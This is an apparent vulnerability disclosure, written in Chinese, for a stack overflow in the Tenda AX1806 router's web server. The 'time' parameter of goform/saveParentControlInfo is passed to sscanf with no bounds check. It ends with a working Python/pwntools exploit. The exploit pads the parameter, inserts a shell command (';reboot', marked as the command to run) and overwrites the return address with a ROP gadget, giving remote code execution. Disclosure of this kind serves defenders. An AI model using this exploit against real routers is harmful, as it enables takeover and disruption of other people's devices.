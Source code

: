 # 漏洞描述

设备：Tenda-AX1806 v1.0.0.1 https://www.tenda.com.cn/download/detail-3306.html

漏洞类型：栈溢出

攻击效果：远程任意代码执行或拒绝服务

# 漏洞成因

该漏洞发生于tdhttpd文件的saveParentControlInfo函数中，goform/saveParentControlInfo页面

首先，saveParentControlInfo函数会调用到sub_60BE0函数

![image-20220209004540591](image/1.png)

而在sub_60BE0函数中，v12来源于http数据包中的time参数

![image-20220209004630375](image/2.png)

接着，该函数会直接调用sscanf函数来将v12切割到栈上，没有任何的安全检测

由此栈溢出发生

通过一串精心构造的time参数，就可以实现任意代码执行，拿到服务器控制权

# POC

任意代码执行的exp：

```http

```python
from pwn import*
import requests

url = "https://192.168.2.1/goform/saveParentControlInfo"

gadget = 0x37208

time =  b"a" * 0x58
time += b";reboot" # command you want to execute
time += b"-"
time += b"b" * 0x34
time += p32(gadget)

r = requests.post(url, data = {"time":time},verify=False )

```
